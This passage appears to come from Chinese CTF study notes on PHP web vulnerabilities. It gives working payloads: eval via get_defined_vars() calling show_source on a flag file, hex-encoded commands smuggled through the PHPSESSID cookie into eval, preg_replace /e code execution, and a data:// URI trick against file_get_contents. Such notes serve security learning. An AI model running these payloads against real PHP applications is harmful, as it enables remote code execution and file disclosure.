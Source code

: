 ```
next() 下一个单元
prev() 前一个单元
array_reverse() 逆序返回数组
```



另外,有些题目还可以通过字符拼接或者引入其他没受过滤限制的参数的方法来执行命令,例如:

```
eval(end(current(get_defined_vars())))&a=show_source('/f1agg');
这里get_defined_vars()返回所有已定义变量所组成的数组,其中GET数组是其中的第一个元素
上面最后其实就是eval($_GET[$a])
```

具体应用见:[Easy Calc](2e610037.html)

<br>

利用`session_id`:

```
先把要用eval执行的命令加密成16进制并放到Cookie中的 PHPSESSID字段里,然后:
eval(hex2bin(session_id(session_start())));

```





<br>

# preg_replace中e标签导致的命令执行

**`preg_replace`函数中, 使用了`/e`标签,意思是将完成替换后的字符串当作php代码来执行**

具体见[ZJCTF，不过如此](2e610037.html)

<br>

# file_get_contents函数_data://协议

遇到这种判断的,直接让`file_get_contents`从`data`协议里读数据就可以

```
if(isset($text)&&(file_get_contents($text,'r')==="I have a dream"
```

```
?text=next.php&text=data://text/plain,I have a dream
```

<br>



# phpmyadmin漏洞利用
